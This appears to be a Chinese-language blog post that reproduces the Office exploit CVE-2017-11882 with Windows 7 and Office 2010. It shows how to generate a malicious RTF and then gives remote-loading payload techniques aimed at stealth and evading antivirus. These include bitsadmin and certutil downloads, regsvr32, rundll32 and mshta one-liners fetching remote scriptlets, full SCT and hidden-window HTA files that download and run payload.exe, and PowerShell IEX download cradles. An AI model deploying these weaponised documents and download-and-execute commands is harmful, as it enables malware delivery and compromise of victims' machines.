 ```yaml
---
title: "Office CVE-2017-11882 复现"
date: 2019-08-03T00:00:00+08:00
draft: false
tags: ['office']
categories: ['漏洞复现']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


漏洞原理移步 [FreeBuf](https://www.freebuf.com/news/154968.html).

环境 Windows 7, Office 2010.

<!--more-->

## 复现过程

[unamer/CVE-2017-11882](https://github.com/unamer/CVE-2017-11882)

[Ridter/CVE-2017-11882](https://github.com/Ridter/CVE-2017-11882)

以前者为例.

生成文档.

```
CVE-2017-11882.py -c calc.exe -t 1 -o test.rtf
```

打开文档.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190803160354.png)

成功执行, 且无其它警告框.

## 改进载荷

这是一个缓冲区溢出漏洞, 这种类型的漏洞一般限制了 Payload 的长度 (具体原因不再说明, 也没有能力说明). 对于功能比较齐全的 Payload 或是 RAT 基本上都会超出这个长度. 一般有两种缩小的方法, 使用 ShellCode 或是远程加载.

上文中的利用脚本已经集成 ShellCode 注入的功能, 不过我并不太推荐, 一是不能灵活的更改要执行的 Payload, 二是向进程注入 ShellCode 的操作极易被杀软拦截.

仅对远程加载进行说明. 之前我也写过关于远程下载的文章, 不过存在几个问题: 1.  偏向于文件 "下载" 而不是执行 2. 功能单一且拓展性差 3. 隐蔽性差.

针对这些问题, 进行远程加载的程序必须符合以下几点: 1. 易于更改 2. 拓展性强 3. 隐蔽性好 4. 尽量不落地执行.

### bitsadmin certutil

这是仅适用于特殊情况必须文件落地而提供的方式.

bitsadmin 只适用于 Windows 7 及以上版本.

```
bitsadmin /transfer get http://192.168.1.1/payload.exe C:\Windows\Temp\payload.exe
```

certutil 需要删除缓存 (%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content).

```
certutil -urlcache -split -f http://192.168.1.1/payload.exe C:\Windows\Temp\payload.exe
certutil -urlcache -split -f http://192.168.1.100/payload.exe C:\Windows\Temp\payload.exe delete
```

### regsvr32 rundll32 mshta (sct file)

把这些放在一起讲主要是因为它们都能够远程加载 sct.

命令执行.

```
<?XML version="1.0"?>
<scriptlet>
<registration
    description="fjzmpcjvqp"
    progid="fjzmpcjvqp"
    version="1.00"
    classid="{204774CF-D251-4F02-855B-2BE70585184B}"
    remotable="true"
	>
<script language="JScript">
<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
]]>
</script>
</registration>
</scriptlet>
```

下载执行.

```
<?XML version="1.0"?>
<scriptlet>
<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"
    remotable="true"
	>
<script language="VBScript">
<![CDATA[
	Const adTypeBinary = 1
	Const adSaveCreateOverWrite = 2
	Dim http,ado
	Set http = CreateObject("Msxml2.ServerXMLHTTP.6.0")
	http.SetOption 2, 13056
	http.open "GET","https://192.168.1.1/payload.exe",False
	http.send
	Set ado = createobject("Adodb.Stream")
	ado.Type = adTypeBinary
	ado.Open
	ado.Write http.responseBody
	ado.SaveToFile "c:\windows\temp\payload.exe"
	ado.Close
	CreateObject("WScript.Shell").Run "c:\windows\temp\payload.exe",0,true 
]]>
</script>
</registration>
</scriptlet>
```

在 regsvr32 中执行的时候要把 script 标签放在 registration 标签内才能成功执行, 而 CVE-2017-8570 恰好相反.

命令后面的 scrobj.dll 可能会被误以为这是保存的文件名, 但实际上它是被 regsvr32 调用的 DLL 名称, 以此来执行 sct 中的命令的.

```
regsvr32 /u /s /n /i:http://192.168.1.1/cmd.sct scrobj.dll
```

在 rundll32 中执行的时候要把 script 标签放在 registration 标签外才能成功执行, 与 regsvr32 恰好相反.

另外注意 RunHTMLApplication 的后面有一个空格.

```
rundll32 javascript:"\..\mshtml,RunHTMLApplication ";o=GetObject("script:http://192.168.1.1/cmd.sct");window.close();
```

mshta 中 sct 的标签位置与 rundll32 相同.

```
mshta vbscript:Close(Execute("GetObject(""script:http://192.168.1.1/cmd.sct"")"))
```

### mshta (hta file)

与上文执行 sct 不同, 这里执行的是 hta 中的代码.

```
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "calc.exe"
self.close
</script>
<body>
</body>
</HEAD> 
</HTML> 
```

使用这种 Payload 格式执行命令无须担心 hta 窗口的问题.

至于下载执行的方法就不贴出来了, 自己尝试吧.

```
mshta http://192.168.1.1/cmd.hta
```

### powershell

PowerShell 想必大家都不陌生了吧.

有两种执行方式, 一种是远程加载 PowerShell 的代码来执行, 另一种是直接下载 exe 来执行.

```
IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.1.1/psh-reflection.ps1')
```

```
(New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1/payload.exe','C:\Windows\Temp\payload.exe')
```

### URL

也能够通过缩小 URL 的方式来缩小 Payload 的长度, 例如各大厂商的短网址缩小.

需要考虑这几个问题: 1. 是否有时间限制 2. 是否是 302 跳转而不是通过 HTML 跳转 3. 在某些地区是否能成功访问.

就不细说了.

## 一些话

生成的文档是 rtf 格式的, 虽然更改为 doc 格式能成功执行, 但如果直接编辑内容, 漏洞会执行失败. 所以必须通过 rtf 合并来自定义内容, 在 CVE-2017-8570 中我提供了具体的步骤, 当然利用脚本中的合成方式也是可以成功的, 只是思路不同罢了.

另外针对之前的改进补充一句话, 对 rtf 中的内容进行编辑保存之后, 原有的 objupdate 会失效, 需要手动再次添加.